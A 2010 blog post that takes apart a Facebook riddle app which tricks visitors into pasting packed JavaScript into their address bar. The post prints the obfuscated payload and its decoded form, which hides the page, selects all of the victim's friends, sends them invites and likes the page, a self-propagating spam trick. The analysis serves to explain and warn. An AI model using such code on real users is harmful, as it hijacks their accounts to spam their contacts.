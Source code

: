 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
tags: tech programming javascript security
render_with_liquid: false
---
```


Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

```javascript
javascript: (function () {
    a = "app112010525500764_jop";
    b = "app112010525500764_jode";
    ifc = "app112010525500764_ifc";
    ifo = "app112010525500764_ifo";
    mw = "app112010525500764_mwrapper";
    eval(
        (function (p, a, c, k, e, r) {
            e = function (c) {
                return (
                    (c < a ? "" : e(parseInt(c / a))) +
                    ((c = c % a) > 35
                        ? String.fromCharCode(c + 29)
                        : c.toString(36))
                );
            };
            if (!"".replace(/^/, String)) {
                while (c--) r[e(c)] = k[c] || e(c);
                k = [
                    function (e) {
                        return r[e];
                    },
                ];
                e = function () {
                    return "\\w+";
                };
                c = 1;
            }
            while (c--)
                if (k[c])
                    p = p.replace(new RegExp("\\b" + e(c) + "\\b", "g"), k[c]);
            return p;
        })(
            'J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);',
            62,
            69,
            "||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||".split(
                "|",
            ),
            0,
            {},
        ),
    );
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

```javascript
d = document;
d["getElementById"](mw)["style"]["visibility"] = "hidden";
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
setTimeout(function () {
    fs["select_all"]();
}, 5000);
setTimeout(function () {
    SocialGraphManager["submitDialog"](
        "sgm_invite_form",
        "/ajax/social_graph/invite_dialog.php",
    );
}, 5000);
setTimeout(function () {
    m["dispatchEvent"](c);
    d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

Lets go though the code above step by step.

```javascript
d["getElementById"](mw)["style"]["visibility"] = "hidden";
```

This code hides the application's main block.

```javascript
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
```

The contents of the textarea at id b ('app112010525500764_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

```html
<textarea
    id="app112010525500764_jode"
    style="display: none;"
    fbcontext="86d477030eb0"
>
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

```javascript
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

```javascript
setTimeout(function () {
    fs["select_all"]();
}, 5000);
setTimeout(function () {
    SocialGraphManager["submitDialog"](
        "sgm_invite_form",
        "/ajax/social_graph/invite_dialog.php",
    );
}, 5000);
setTimeout(function () {
    m["dispatchEvent"](c);
    d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?
